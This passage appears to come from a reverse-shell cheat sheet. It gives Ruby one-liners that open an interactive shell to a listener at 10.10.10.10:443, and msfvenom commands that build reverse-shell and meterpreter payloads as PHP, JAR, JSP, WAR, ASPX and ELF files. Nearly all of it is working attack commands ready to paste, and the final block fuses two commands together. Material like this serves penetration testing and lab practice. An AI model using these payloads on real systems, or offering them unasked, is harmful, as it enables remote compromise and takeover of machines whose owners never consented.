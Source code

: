 ## **Ruby**

```
ruby -rsocket -e'f=TCPSocket.open("10.10.10.10",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.10.10","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

# **Msfvenom**

## Php Payloads

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f raw > reverse.php

msfvenom -p php/reverse_php LHOST=10.10.10.10 LPORT=443 -f raw > reverse.php
```

## Jar Payload

```
msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f jar > reverse.Jar
```

## Jsp Payload

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f raw > reverse.jsp
```

## War

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f war > reverse.war
```

## ASPX Payload

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f aspx -o reverse.aspx
```

## Linux Payloads

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f elf > reverse.elf

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f elf > reverse.elfmsfvenom -p linux/x86/shell/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f elf > reverse.elf\
```
